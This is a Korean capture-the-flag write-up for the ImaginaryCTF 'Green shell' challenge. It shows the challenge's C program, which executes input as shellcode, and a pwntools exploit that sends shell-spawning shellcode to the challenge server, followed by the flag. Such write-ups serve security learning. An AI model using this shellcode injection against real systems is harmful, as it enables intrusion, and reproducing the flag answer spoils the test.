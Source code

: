 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-05-18-20-05-05.png)

첨부파일

[dist.zip](https://github.com/2jinu/CTFnWargame/raw/main/CTF/%5B2021%5D%20ImaginaryCTF%20Round10/Green%20shell/file/dist.zip)


# **Write-Up**

green_shell.c 열어보면 다음과 같다. 메모리상의 0x42420000에 0x1000만큼 할당받고 0x100만큼 stdin으로 입력받는 것같다. (자세한내용은 잘 모름)

```c++
#include <stdio.h>
#include <sys/mman.h>

int main() {
    char* shellcode = mmap((void*)0x42420000, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    puts("Let's race");
    fgets(shellcode, 0x100, stdin);
    mprotect(shellcode, sizeof(shellcode), PROT_READ | PROT_EXEC);
    ((void (*)())shellcode)();
}
```

어찌됐든 다음과 같은 python 코드로 shell을 획득한다.

```py
from pwn import *
context(arch='amd64', os='linux')

p = remote("oreos.ctfchallenge.ga", 12345)
p.recvuntil('race')

p.send(asm(shellcraft.sh()))
p.interactive()
```

shell을 획득한 뒤 cat flag.txt를 입력하여 flag를 획득한다.

![](images/2022-05-18-20-05-39.png)


# **FLAG**

**ictf{it's-a_me_sh3llc0d10}**